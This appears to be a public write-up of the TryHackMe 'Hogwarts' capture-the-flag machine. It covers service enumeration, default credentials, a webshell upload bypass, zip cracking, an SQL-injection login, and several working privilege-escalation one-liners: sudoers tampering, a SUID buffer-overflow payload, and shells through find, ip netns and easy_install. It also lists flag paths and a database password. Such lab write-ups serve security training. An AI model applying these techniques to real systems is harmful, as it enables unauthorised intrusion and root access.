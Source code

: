 # Hogwarts THM PublicWriteup
#### IMPORTANT Hogwarts has random, moving ports like the stairs moving:

- All ports on this machine are random, except 22. 
- The creds for encrypted files, users and random paths are all random too.


#### Map of services not ports! Rustscan!

To Get for all
```bash
# REQUIRES RUSTSCAN PORTS CHANGE 
nmap service overview
22 is webserver # hard to access with regular browsers!!
# REQUIRES RUSTSCAN PORTS CHANGE 
```

#### Default Credentials
```
dobby : ilikesocks
draco : slytherin
hermoine
neville
```

#### Network Services to Foothold

Port 22 webshell upload -> `www-data`
```
By browsing `/permissions` the secret path to an upload website can be found. This allows any upload, as long as the content type is set to `application/pdf`. A webshell uploaded this way and accessed via `/uploads/shell.php` will have access as `www-data`.
```

random ftp port -> neville's ssh creds
```bash
wget --ftp-user=anonymous --ftp-password='' "ftp://$IP:$FTP_PORT/.../.../.I_saved_it_harry.zip" && mv .I_saved_it_harry.zip file.zip 
PASSWORD=$(fcrackzip -v -u -D -p "$Wordlist" file.zip | grep -o '== [a-zA-Z0-9]*$' | awk '{print $2}')
unzip -P $PASSWORD file.zip 
ssh_pass=$(cat boot/.pass | grep 'neville:' | cut -d ':' -f 2)

ssh -o StrictHostKeychecking=no neville@hogwarts.thm -p MOVINGSSHPORT
```

random http port -> hermoine ssh creds 
```
login vulnerable to sqli
```

#### Privilege Escalation

```bash
sudo ip netns exec foo bash -c 'echo "neville ALL=(ALL:ALL) ALL" >> /etc/sudoers'
```

`/etc/room_of_requirement` is a suid binary
```bash
{ echo -e "012345678901234567890123\xbe\xba\xfe\xca"; cat; } | /etc/room_of_requirement
```

hermoine `date` SUID can read!

IP SUID
```bash
ip netns add foo
ip netns exec foo /bin/sh -p
```

Draco `easy_install`
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

Random high port requires three deathly hallows (including binary)
```bash
/var/www/mystaticsite/style.cloudflare.css
/var/www/mymainsite/login.css
/etc/room_of_requirement
```
Submitting the three 26 character random phrases as (order doesn't matter) grants a root shell

find SUID
```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

#### Flags
```
/root/headmaster.txt
/home/hermoine/special_spell.txt
/home/harry/special_spell.txt
/home/draco/achievements.txt
/var/www/mymainsite/conn.php
mysql db (root:neville_was_chosen), basement db, monsters table
/etc/left_corridor/seventh_floor/.entrance (thanks to mug3njutsu on discord for this)
```
#### References
https://www.cyberguider.com/hogwarts-vulnhub-writeup/
https://github.com/Machinh/Koth-THM/blob/main/HOGWARTS
https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-hogwarts.md